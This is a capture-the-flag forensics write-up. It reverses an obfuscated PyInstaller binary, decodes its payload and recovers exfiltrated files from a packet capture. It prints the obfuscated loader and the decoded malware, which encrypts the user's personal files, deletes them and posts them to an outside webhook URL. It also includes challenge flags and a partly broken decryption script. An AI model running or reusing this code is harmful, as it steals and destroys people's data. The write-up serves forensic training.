




# Statement

Ex filtration happened in one endpoint 
It's good to be you guys, if you get hacked, report it to the incident response team. who do we report it to?
There are 3 part flags in this challenge

[https://s.id/guaJ0](https://s.id/guaJ0)

- There were two evidence files one is pcap and another one is disk image.
- From initial examination i found that there were a exe binary which is used to perform this exfiltration and confirmed with pcap aswell



- Analysing the binary.
- By doing basic static analysis i found that the malware is a python binary



- Using `*pyinstxtractor and pycdc`* to perform Reverse engineering  [Refer](https://jieliau.medium.com/reverse-engineering-to-you-python-binary-c0ed35a37a7e)

`python3 [pyinstxtractor.py](http://pyinstxtractor.py) obfuscated.exe`

- This tool will disassemble the binary into python byte codes



`pycdc obfuscated.pyc`

- pycdc will convert the byte code into human readable code

```jsx
# Source Generated with Decompyle++
# File: obfuscated.pyc (Python 3.12)

_ = lambda __: __import__('zlib').decompress(__import__('base64').b64decode(__[::-1]))
exec(_(b'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'))
```

- Initially the above code gives more pain in my @55 later with help of gpt i figured out a way to uncover the actual code
- The above payload was encode and compressed 64 times with base64 and zlib

```jsx
import base64
import zlib
import re
a = input("Enter the payload:")
encoded = a.encode()
for i in range(64):
	match = re.search(rb"b'(.+?)'",encoded, re.DOTALL)
	if match:
		encoded = match.group(1)
	decoded = base64.b64decode(encoded[::-1]) 
        decompressed = zlib.decompress(decoded)
        encoded = decompressed
print(encoded)
```

- The above code helped to decompress and decode the scrambled python code

Result:

```jsx
import os
import base64
import requests
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
from datetime import datetime

AES_KEY = b'\xff\x3d\xae\x3b\xcc\xef\x12\x44\xff\x3d\xae\x3b\xcc\xef\x12\x44'
timestamp = int(datetime.now().timestamp())
IV = timestamp.to_bytes(16, byteorder='big')

dirs = ['Documents', 'Desktop', 'Downloads', 'Pictures', 'Videos', 'Music']
base_path = os.path.expandvars(r'%USERPROFILE%')
print("Base Path:", base_path)

def procFile(file_path):
    try:
        with open(file_path, 'rb') as f:
            data = f.read()
        
        ct = AES.new(AES_KEY, AES.MODE_CBC, IV)
        datas = ct.encrypt(pad(data, AES.block_size))
        
        encDatas = base64.b64encode(datas)

        stream_datas = encDatas.hex()
        chunks = [stream_datas[i:i+256] for i in range(0, len(stream_datas), 256)]
        os.remove(file_path)
        
        for chunk in chunks:
            url = f'http://webhook.site/f3ef69c6-ffd2-483e-a1e7-06fa1f5e79cd?data={chunk}'
            requests.post(url)
        
        print(f"{file_path}")
        print("Checkpoint 2: Y2hhbGxfc2ltcGxlXw==")
    except Exception as e:
        print(f"{file_path}: {e}")

def procDir():
    for dir_name in dirs:
        dir_path = os.path.join(base_path, dir_name)
        if os.path.exists(dir_path):
            for root, _, files in os.walk(dir_path):
                for file in files:
                    file_path = os.path.join(root, file)
                    procFile(file_path)

if __name__ == "__main__":
    procDir()
```

Flag 2:

```jsx
chall_simple_
```

- Upon examining the code it says that it uses http post request to ex filtrate data
- Encryption method: AES Padding: CBC
- And one main thing to remember is that this code uses timestamp to create IV for separate chunks
- Separating timestamps (in unix epoch) and post request chunks

`tshark -r traffic.pcapng -Y "http.request.method == POST" -T fields -e frame.time_epoch | cut -d "." -f 1`

- This linux command will give epoch timestamps as result

`tshark -r traffic.pcapng -Y "http.request.method == POST" -T fields -e http.request.uri | cut -d "=" -f 2`

- This will result in associated data chunks
- Copy both and put it in excel sheet and save it as csv file



- Again shameless me asked gpt for decryption code

```jsx
import base64
import binascii
import csv
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

AES_KEY = b'\xff\x3d\xae\x3b\xcc\xef\x12\x44\xff\x3d\xae\x3b\xcc\xef\x12\x44'
csv_file = "data.csv"
def decrypt_data(timestamp, hex_data):
    try:
	IV = int(timestamp).to_bytes(16, byteorder='big')  # Convert timestamp to 16-byte IV
        binary_data = binascii.unhexlify(hex_data)  # Convert from HEX to binary
        base64_data = base64.b64decode(binary_data)  # Convert from Base64 to binary
        return decrypted_data
    except Exception as e:
        print(f"[ERROR] Failed to decrypt for timestamp {timestamp}: {e}")
        return None

# Read CSV file and process each entry
with open(csv_file, 'r', newline='') as f:
    reader = csv.reader(f)
    for row in reader:
        if len(row) < 2:
            continue  # Skip invalid rows

        timestamp, hex_data = row[0], row[1]
        decrypted_content = decrypt_data(timestamp, hex_data)

        if decrypted_content:
	    output_file = f"decrypted_{timestamp}.bin"
            with open(output_file, "wb") as out_f:
                out_f.write(decrypted_content)
            print(f"[INFO] Decrypted data saved to {output_file}")
```

- This code doesn’t really work on all chunks but good enough to retrieve the flag
- The flag is transmitted on 1737251611 (ie Sun 19 January 2025 01:53:31 UTC)

Flag 3:

```jsx
gampangkan?
gaopanglah!
part 3: ini_88e453eeac}
```

---
